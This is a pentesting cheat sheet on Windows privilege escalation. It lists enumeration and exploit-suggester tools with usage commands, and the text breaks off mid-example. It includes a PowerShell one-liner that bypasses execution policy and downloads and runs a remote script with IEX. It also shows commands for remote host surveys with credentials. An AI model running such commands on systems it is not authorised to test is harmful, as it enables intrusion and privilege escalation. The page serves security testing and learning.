 +++
title = "Windows - Privilege Escalation"
date = '2022-11-04'
description = 'Techniques and methodologies for escalting privileges on Windows and lateral movement (promoting to Administrator from user or to a user with more permissions).'
include_toc = 'true'
+++
# Windows - Privilege Escalation

## Tools

- [PowerSploit's PowerUp](https://github.com/PowerShellMafia/PowerSploit)
    ```powershell
    powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
    ```
- [Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock](https://github.com/rasta-mouse/Watson)
- [(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities](https://github.com/rasta-mouse/Sherlock)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
    ```
- [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
- [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
    ```powershell
    ./windows-exploit-suggester.py --update
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
    ```
- [windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation Vectors on Windows Systems](https://github.com/pentestmonkey/windows-privesc-check)
- [WindowsExploits - Windows exploits, mostly precompiled. Not being updated.](https://github.com/abatchy17/WindowsExploits)
- [WindowsEnum - A Powershell Privilege Escalation Enumeration Script.](https://github.com/absolomb/WindowsEnum)
- [Seatbelt - A C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.](https://github.com/GhostPack/Seatbelt)
    ```powershell
    Seatbelt.exe -group=all -full
    Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"
    Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
    ```
- [Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs (legacy Windows) in mind](https://github.com/M4ximuss/Powerless)
- [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
    ```powershell
    powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
    ```
- [winPEAS - Windows Privilege Escalation Awesome Script](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
- [Windows Exploit Suggester - Next Generation (WES-NG)](https://github.com/bitsadmin/wesng)
    ```powershell
    # First obtain systeminfo
    systeminfo
    systeminfo > systeminfo.txt
    # Then feed it to wesng